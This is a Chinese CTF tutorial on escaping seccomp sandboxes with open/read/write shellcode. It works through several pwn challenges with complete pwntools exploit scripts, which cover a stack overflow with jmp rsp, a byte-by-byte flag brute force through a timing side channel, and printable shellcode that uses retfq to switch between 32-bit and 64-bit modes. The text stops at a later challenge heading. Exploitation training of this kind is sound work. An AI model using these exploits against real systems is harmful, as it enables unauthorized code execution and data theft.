# 栈沙箱学习之orw - 先知社区

栈沙箱学习之orw

* * *

# 前言

学到这里，栈的学习就快要告一段落了，这里先会讲解一下栈沙箱orw绕过的一些知识，之后我们学习堆的时候会将堆orw绕过。

## 沙箱保护

沙箱保护是对程序加入一些保护，最常见的是禁用一些系统调用，如execve，使得我们不能通过系统调用execve或system等获取到远程终端权限，因此只能通过**ROP**的方式调用**open**, **read**, **write**的来读取并打印flag 内容

## ORW

orw其实就是open,read,write的简写，其实就是打开flag，写入flag，输出flag

## 查看沙箱

可以利用seccomp-tools来查看是否开启了沙箱，以及沙箱中一些允许的syscall

```plain
$ sudo apt install gcc ruby-dev
$ gem install seccomp-tools
```

```plain
seccomp-tools dump ./pwn
```

利用上面指令即可查看程序沙箱信息

## 开启沙盒的两种方式

在ctf的pwn题中一般有两种函数调用方式实现沙盒机制，第一种是采用prctl函数调用，第二种是使用seccomp库函数。

### prctl()函数调用

具体可以看一下[prctl()函数详解\_prctl函数\_nedwons的博客-CSDN博客](https://blog.csdn.net/hunter___/article/details/83063131)

看一下函数原型

```plain
#include <sys/prctl.h>
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);

// 主要关注prctl()函数的第一个参数，也就是option,设定的option的值的不同导致黑名单不同，介绍2个比较重要的option
// PR_SET_NO_NEW_PRIVS(38) 和 PR_SET_SECCOMP(22)

// option为38的情况
// 此时第二个参数设置为1，则禁用execve系统调用且子进程一样受用
prctl(38, 1LL, 0LL, 0LL, 0LL);

// option为22的情况
// 此时第二个参数为1，只允许调用read/write/_exit(not exit_group)/sigreturn这几个syscall
// 第二个参数为2，则为过滤模式，其中对syscall的限制通过参数3的结构体来自定义过滤规则。
prctl(22, 2LL, &v1);
```

### seccomp()函数调用

```plain
__int64 sandbox()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  // 这里介绍两个重要的宏，SCMP_ACT_ALLOW(0x7fff0000U) SCMP_ACT_KILL( 0x00000000U)
  // seccomp初始化，参数为0表示白名单模式，参数为0x7fff0000U则为黑名单模式
  v1 = seccomp_init(0LL);
  if ( !v1 )
  {
    puts("seccomp error");
    exit(0);
  }

  // seccomp_rule_add添加规则
  // v1对应上面初始化的返回值
  // 0x7fff0000即对应宏SCMP_ACT_ALLOW
  // 第三个参数代表对应的系统调用号，0-->read/1-->write/2-->open/60-->exit
  // 第四个参数表示是否需要对对应系统调用的参数做出限制以及指示做出限制的个数，传0不做任何限制
  seccomp_rule_add(v1, 0x7FFF0000LL, 2LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 0LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 1LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 60LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 231LL, 0LL);

  // seccomp_load->将当前seccomp过滤器加载到内核中
  if ( seccomp_load(v1) < 0 )
  {
    // seccomp_release->释放seccomp过滤器状态
    // 但对已经load的过滤规则不影响
    seccomp_release(v1);
    puts("seccomp error");
    exit(0);
  }
  return seccomp_release(v1);
}
```

## shellcode写入哪里？

一般这种ORW题目给出的溢出大小不够我们写入很长的ROP链的，因此会提供mmap()函数，从而给出一段在栈上的内存

使用mmap申请适合4byte的寄存器的地址

**mmap()函数原型**

```plain
void *mmap{
    void *addr; //映射区首地址，传NULL
    size_t length; //映射区大小
    //会自动调为4k的整数倍
    //不能为0
    //一般文件多大，length就指定多大
    int prot; //映射区权限
    //PROT_READ 映射区必须要有读权限
    //PROT_WRITE
    //PROT_READ | PROT_WRITE
    int flags; //标志位参数
    //MAP_SHARED 修改内存数据会同步到磁盘
    //MAP_PRIVATE 修改内存数据不会同步到磁盘
    int fd; //要映射文件所对应的文件描述符
    off_t offset; //映射文件的偏移量，从文件哪个位置开始
    //映射的时候文件指针的偏移量
    //必须是4k的整数倍
    //一般设为0
}
```

| mmap |     |     |
| --- | --- | --- |
| addr | 要申请的地址 | 建议四位 |
| length | 从addr开始申请的长度 | 建议一页0x1000 |
| prot | 权限  | 7   |
| flags | 确定映射的更新是否对其他进程可见 | 0x22 |
| fd  | 映射到文件描述符fd | 0xFFFFFFFF |
| offset | 映射偏移 | NULL |

## 实例操作

### \[极客大挑战 2019\]Not Bad

#### orw都有

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203604-4cf7871e-3b68-1.png)

64位，保护全关

**seccomp-tools**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203610-500afe7c-3b68-1.png)

这里可以看到orw权限都开了，即可以正常使用open,read,write

**IDA分析**

`sub_400949()`

```plain
__int64 sub_400949()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 0LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 1LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 2LL, 0LL);
  seccomp_rule_add(v1, 0x7FFF0000LL, 60LL, 0LL);
  return seccomp_load(v1);
}
```

这里是用seccomp()开启的沙箱，和我们上面分析的结果一样，都是允许调用open,read,write,exit

`sub_400A16()`

```plain
int sub_400A16()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Easy shellcode, have fun!");
  read(0, buf, 0x38uLL);
  return puts("Baddd! Focu5 me! Baddd! Baddd!");
}
```

这里是一个read的栈溢出漏洞，可以利用这里打栈溢出

`sub_400906()`

```plain
void sub_400906()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
```

设定关闭缓冲区

`main()`

```plain
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  mmap((void *)0x123000, 0x1000uLL, 6, 34, -1, 0LL);
  sub_400949();
  sub_400906();
  sub_400A16();
  return 0LL;
}
```

`sub_4009EE()`

```plain
void sub_4009EE()
{
  __asm { jmp     rsp }
}
```

提供了jmp\_rsp

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203618-551dcd36-3b68-1.png)

`_mmap()`

```plain
// attributes: thunk
void *mmap(void *addr, size_t len, int prot, int flags, int fd, __off_t offset)
{
  return mmap(addr, len, prot, flags, fd, offset);
}
```

使用mmap提供了一块内存

**gdb动调**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203623-5804f3e4-3b68-1.png)

```plain
32+8=40
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203630-5c4cca76-3b68-1.png)

知道了起始地址，这段空间大小0x1000,也就是说read里面读取到哪里都无所谓反正mmap\_place+x<=max\_place就可以，后面那个0x100是读取大小

所以思路也就有了：

*   首先构造我们的shellcode
*   利用jmp\_rsp，跳转到给我们提供mmap的内存这里写入我们的ROP链
*   getshell

先上exp:

```plain
#coding=utf-8 
import os
import sys
import time
from pwn import *
from ctypes import *

context.log_level='debug'
context.arch='amd64'

p=remote("node4.buuoj.cn",25757)
#p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(data)
ss      = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

#dbg()
ru('Easy shellcode, have fun!')

mmap=0x123000
#orw=shellcraft.open('./flag.txt')
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

pl=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
pl=pl.ljust(0x28,b'\x00')
pl+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


sl(pl)

shell=asm(orw)
sl(shell)

p.interactive()
```

解释一下exp

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203640-6261d0f0-3b68-1.png)

*   第一个框就是构造我们orw的shellcode了，先打开flag文件，之后利用read写入flag，再输出flag

这里先说一下为什么read的fd是3，可以结合下面图片，0~2都是保留的用于缓冲区，我们打开第一个新文件的文件描述符是3，第二个是4，以此类推

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203646-659b6416-3b68-1.png)

*   第二个框就是我们所说的jmp\_rsp的地址
*   第三个框就是我们将ROP写到mmap提供的栈的内存上，之后利用jmp\_rsp跳转到orw\_shellcode的地方

### 2021-蓝帽杯初赛-slient

#### or缺w->采取爆破

**checksec**

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203651-68ea44de-3b68-1.png)

64位程序，保护全开

**seccomp-tools**

这里要注意要在**root**下查看

```plain
root@ubuntu:/home/evil/Desktop/pwn test/orw/ciscn2023/2021 slient# seccomp-tools dump ./pwn
Welcome to silent execution-box.

line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x01 0x00 0x00000000  if (A == read) goto 0007
 0006: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

这里可以看到只有**read**和**open**

**IDA分析**

main()

```plain
void __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v3; // eax
  __int128 v4; // xmm0
  __int128 v5; // xmm1
  __int128 v6; // xmm2
  __int64 v7; // [rsp+48h] [rbp-68h]
  __int64 v8; // [rsp+50h] [rbp-60h]
  __int128 buf; // [rsp+60h] [rbp-50h] BYREF
  __int128 v10; // [rsp+70h] [rbp-40h]
  __int128 v11; // [rsp+80h] [rbp-30h]
  __int128 v12; // [rsp+90h] [rbp-20h]
  unsigned __int64 v13; // [rsp+A0h] [rbp-10h]

  v13 = __readfsqword(0x28u);
  sub_A60(a1, a2, a3);
  v12 = 0LL;
  v11 = 0LL;
  v10 = 0LL;
  buf = 0LL;
  puts("Welcome to silent execution-box.");
  v3 = getpagesize();
  v8 = (int)mmap((void *)0x1000, v3, 7, 34, 0, 0LL);
  read(0, &buf, 0x40uLL);
  prctl(38, 1LL, 0LL, 0LL, 0LL);
  prctl(4, 0LL);
  v7 = seccomp_init(0LL);
  seccomp_rule_add(v7, 2147418112LL, 2LL, 0LL);
  seccomp_rule_add(v7, 2147418112LL, 0LL, 0LL);
  seccomp_load(v7);
  v4 = buf;
  v5 = v10;
  v6 = v11;
  *(_OWORD *)(v8 + 48) = v12;
  *(_OWORD *)(v8 + 32) = v6;
  *(_OWORD *)(v8 + 16) = v5;
  *(_OWORD *)v8 = v4;
  ((void (__fastcall *)(__int64, __int64, __int64))v8)(3735928559LL, 3735928559LL, 3735928559LL);
  if ( __readfsqword(0x28u) != v13 )
    init();
}
```

分析一下main(),就是利用mmap()申请了0x1000的内存空间，然后利用seccomp()设置了沙箱，read允许读入0x40大小的数据

这道题不知道为啥好像动调不了，有可能是我太菜了动调不动，不过在系统函数说明中有这样一说

```plain
// about mmap (link: https://man7.org/linux/man-pages/man2/mmap.2.html)
// 1. SYNOPSIS
#include <sys/mman.h>
void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);

/* 2. DESCRIPTION
 mmap() creates a new mapping in the virtual address space of the
       calling process.  The starting address for the new mapping is
       specified in addr.  The length argument specifies the length of
       the mapping (which must be greater than 0).

       If addr is NULL, then the kernel chooses the (page-aligned)
       address at which to create the mapping; this is the most portable
       method of creating a new mapping.  If addr is not NULL, then the
       kernel takes it as a hint about where to place the mapping; on
       Linux, the kernel will pick a nearby page boundary (but always
       above or equal to the value specified by
       /proc/sys/vm/mmap_min_addr) and attempt to create the mapping
       there.  If another mapping already exists there, the kernel picks
       a new address that may or may not depend on the hint.  The
       address of the new mapping is returned as the result of the call.
......
*/
```

由 `on Linux, the kernel will pick a nearby page boundary (but always above or equal to the value specified by /proc/sys/vm/mmap_min_addr)` 可知：Linux 为 `mmap` 分配虚拟内存时，总是从最接近 `addr` 的页边缘开始的，而且保证地址不低于 `/proc/sys/vm/mmap_min_addr` 所指定的值。  
可以看到，`mmap_min_addr = 65536 = 0x10000`，因此刚才判断程序利用 mmap 函数在 0x10000 处开辟一个 page 的空间

因此mmap申请的内存的起始地址应该为0x10000,截至地址应该为0x11000,大小为0x1000，这里附上其他师傅进行动调vmmap得到的结果，和我所理解的是一样的

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203704-70756b70-3b68-1.png)

由于缺少write()函数，我们无法输出flag，可以进行单个字节的对比爆，即读取flag到一块内存区域，随后单字节爆破，在shellcode中设置loop循环，一旦cmp命中就让程序卡死，否则执行后面的exit因为沙箱禁用程序崩溃退出，根据程序的表现可以区分是否命中，注意因为服务器通信不稳定，每次读到一段flag就更新exp中的flag字符串继续向后爆破

exp：

```plain
#coding=utf-8
from pwn import *

context.update(arch='amd64',os='linux',log_level='info')

def exp(dis,char):
    p.recvuntil("Welcome to silent execution-box.\n")
    shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x10700
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    p.send(shellcode)
flag = "flag{"

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203714-768b8ff8-3b68-1.png)

解释一下exp，主要是解释shellcode

[](https://xzfile.aliyuncs.com/media/upload/picture/20230815203719-7924e656-3b68-1.png)

*   第一个框，这里其实就是open('./flag'),因为程序都是小端序的，我们要输入galf的16进制，程序才会解析为flag
*   第二个框，这里其实就是read(fd,0x10700,0x40)
*   第三个框，这里就是利用loop循环写的一个汇编语言单字节爆破，此时rsi经过传参保存的是flag的地址，利用cmp检查flag\[index\]是否等于需要的flag，若相等咋会卡在这个循环中，否则继续爆破

### RW 缺 O

#### 可以借助fstat()->利用retfq汇编指令切换至32位调用open

这里从网上实在找不到题目，就借用ex团长的一道题目进行理解分析吧，虽然原文章已经写的很好了，具体题目分析可以看一下参考链接**shellcode的艺术**中的**第六模块**

顺便讲一下`retf`这个汇编指令

*   CPU执行ret指令时,相当于进行
    
    ```plain
    pop IP
    ```
    
*   CPU执行retf指令时,相当于进行:
    
    ```plain
    pop IP
    pop Cs
    ```
    
*   32bit cs 0x23
    
    ```plain
    ;;nasm -f elf32 test_cs_32.asm 
    ;;ld -m elf_i386 -o test_cs_32
    global _start
    _start:
      push 0x0068732f
      push 0x6e69622f
      mov ebx,esp
      xor ecx,ecx
      xor edx,edx
      mov eax,11
      int 0x80
    ```
    
*   64bit cs 0x33
    
    ```plain
    ;;nasm -f elf64 test_cs_64.asm 
    ;;ld -m elf_x86_64 -o test_cs_64 test_cs_64.o
    global _start
    _start:
      mov r10,0x0068732f6e69622f
      push r10
      mov rdi,rsp
      xor rsi,rsi
      xor rdx,rdx
      mov rax,0x3b
      syscall
    ```
    

还有要注意一下，当从**64位切换到32位**的时候，64位下会push一个8byte的数

```plain
push 0x20
push addr
retf
```

栈的结构

```plain
rsp->   00----addr----00
        0000000000000020
```

转为32位时

```plain
esp->   0-addr-0
        00000020
```

可以采取

```plain
to32bit:
    ; retf to 32bit
    push addr
    mov r15,0x2300000000
    add qword [rsp],r15
    retf
```

此时的栈结构

```plain
rsp->   0-addr-020000000
//也就是
esp->   0-addr-0
        00000020
```

**32位转换为64位时**

直接转换即可，因为不存在push一个8byte的数了

```plain
push 0x20
push addr
retf
```

现在讲解了`retf`的一些基础知识以及在转换中的一些细节，现在我们回到题目继续看一下这道题目。

seccomp-tools

```plain
$ seccomp-tools dump ./shellcode 
---------- Shellcode ----------
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x15 0x06 0x00 0x00000005  if (A == fstat) goto 0008
 0002: 0x15 0x05 0x00 0x00000025  if (A == alarm) goto 0008
 0003: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0008
 0004: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0008
 0005: 0x15 0x02 0x00 0x00000009  if (A == mmap) goto 0008
 0006: 0x15 0x01 0x00 0x000000e7  if (A == exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x00000000  return KILL
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

可以看到可以调用write,read,mmap但是没有open，这个时候可以利用fstat()函数，该函数的 64 位系统调用号为 5，这个是 `open` 函数的 32 位系统调用号）

所以这道题的思路也就有了，利用 `retfq` 汇编指令进行 32 位和 64 位系统格式之间的切换，在 32 位格式下执行 `open` 函数打开 `flag` 文件，在 64 位格式下执行输入输出。

相关系统调用号可以参考[linux 系统调用号表\_linux系统调用号\_Anciety的博客-CSDN博客](https://blog.csdn.net/qq_29343201/article/details/52209588)

这道题ex团长设计的还是难顶的，限制输入的 shellcode 必须是可打印字符，我们可以借助一些技巧从而构造汇编指令(比如异或之类的算法操作)

可以用**shellcode的艺术**中的**第三模块**中的总结用法，比如

```plain
xor al, 立即数
xor byte ptr [eax… + 立即数], al dl…
xor byte ptr [eax… + 立即数], ah dh…
xor dword ptr [eax… + 立即数], esi edi
xor word ptr [eax… + 立即数], si di
xor al dl…, byte ptr [eax… + 立即数]
xor ah dh…, byte ptr [eax… + 立即数]
xor esi edi, dword ptr [eax… + 立即数]
xor si di, word ptr [eax… + 立即数]
```

exp:

```plain
#coding:utf-8
from pwn import *
context.log_level = 'debug'
p = process('./shellcode')
# p = remote("nc.eonew.cn","10011")
p.recvuntil("shellcode: ")

append_x86 = '''
push ebx
pop ebx
'''
append = '''
/* 机器码: 52 5a */
push rdx
pop rdx
'''

shellcode_x86 = '''
/*fp = open("flag")*/
mov esp,0x40404140

/* s = "flag" */
push 0x67616c66

/* ebx = &s */
push esp
pop ebx

/* ecx = 0 */
xor ecx,ecx

mov eax,5
int 0x80

mov ecx,eax
'''

shellcode_flag = '''
/* retfq:  mode_32 -> mode_64*/
push 0x33
push 0x40404089
retfq

/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag, arch = 'amd64', os = 'linux')
shellcode = ''

# 0x40404040 为32位shellcode地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
/* syscall 的机器码是 0f 05, 都是不可打印字符. */
/* 用异或运算来解决这个问题: 0x0f = 0x5d^0x52, 0x05 = 0x5f^0x5a. */
/* 其中 0x52,0x5a 由 append 提供. */
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
'''
shellcode_read = '''
/*read(0,0x40404040,0x70)*/

push 0x40404040 /*set rsi*/
pop rsi

push 0x40 /*set rdi*/
pop rax
xor al,0x40
push rax
pop rdi

xor al,0x40 /*set rdx*/
push 0x70
pop rdx

/*syscall*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x57],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x58],cl

push rdx /*set rax*/
pop rax
xor al,0x70
'''

shellcode_retfq = '''
/*mode_64 -> mode_32*/
push rbx
pop rax

xor al,0x40

push 0x72
pop rcx
xor byte ptr[rax+0x40],cl
push 0x68
pop rcx
xor byte ptr[rax+0x40],cl
push 0x47
pop rcx
sub byte ptr[rax+0x41],cl
push 0x48
pop rcx
sub byte ptr[rax+0x41],cl
push rdi
push rdi
push 0x23
push 0x40404040
pop rax
push rax
'''

# mmap
shellcode += shellcode_mmap
shellcode += append

# read shellcode
shellcode += shellcode_read
shellcode += append

# mode_64 -> mode_32
shellcode += shellcode_retfq
shellcode += append

shellcode = asm(shellcode,arch = 'amd64',os = 'linux')
print hex(len(shellcode))

#gdb.attach(p,"b *0x40027f\nb*0x4002eb\nc\nc\nsi\n")
p.sendline(shellcode)
pause()

p.sendline(shellcode_x86 + 0x29*'\x90' + shellcode_flag)
p.interactive()
```

### 2021-强网杯-初赛-shellcode

#### 只有R无OW->上述两种方式的总结

这里就不多赘述了，只讲一下思路与exp

seccomp-tools

